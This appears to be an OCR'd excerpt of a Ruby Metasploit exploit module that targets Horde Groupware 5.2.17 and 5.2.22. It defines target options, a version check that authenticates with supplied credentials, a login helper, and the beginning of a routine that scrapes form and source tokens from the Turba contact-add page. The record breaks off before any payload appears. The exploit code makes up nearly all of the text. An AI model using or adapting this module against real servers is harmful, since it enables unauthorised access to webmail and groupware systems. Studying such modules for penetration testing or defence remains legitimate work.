 ```ruby
      [
        OptString.new('TARGETURI',  [true, 'The base path to the web application', '/']),
        OptString.new('USERNAME',   [true, 'The username to authenticate with']),
        OptString.new('PASSWORD',   [true, 'The password to authenticate with'])
      ])
  end
  def check
    vprint_status("Authenticating using #{username}:#{password}")
    cookie = horde_login(username, password)
    return Exploit::CheckCode::Unknown unless cookie
    res = send_request_cgi(
      'method'      => 'GET',
      'uri'         => normalize_uri(target_uri, '/turba/add.php'),
      'cookie'      => cookie
    )
    if res && res.code == 200
    if res.body.include?('Groupware 5.2.22') || res.body.include?('Groupware 5.2.17')
    return Exploit::CheckCode::Vulnerable
      end
      return Exploit::CheckCode::Appears
    end
    Exploit::CheckCode::Safe
  end
  def username
    datastore['USERNAME']
  end
  def password
    datastore['PASSWORD']
  end
  def horde_login(user, pass)
    res = send_request_cgi(
      'method'      => 'GET',
      'uri'         => normalize_uri(target_uri, 'login.php')
    )
    fail_with(Failure::Unreachable, 'No response received from the target.') unless res
    session_cookie = res.get_cookies
    vprint_status("Logging in...")
    res = send_request_cgi(
      'method'      => 'POST',
      'uri'         => normalize_uri(target_uri, 'login.php'),
      'cookie'      => session_cookie,
      'vars_post'   => {
        'horde_user'  => user,
        'horde_pass'  => pass,
        'login_post'    => '1'
      }
    )
    return res.get_cookies if res && res.code == 302
    nil
  end
  def get_tokens(cookie)
    res = send_request_cgi(
      'method'      => 'GET',
      'uri'         => normalize_uri(target_uri, 'turba', 'add.php'),
      'cookie'      => cookie
    )
    if res && res.code == 200
      if res.body.scan /turba\/add\.php\?source=(.+)"/
          source_token = Regexp.last_match.to_a[1..-1].find{|x| x != "favourites" }
      if res.body =~ /name="turba_form_addcontact_formToken" value="(.+)"/
        form_token = Regexp.last_match[1]
        return source_token, form_token, res.get_cookies
      end
```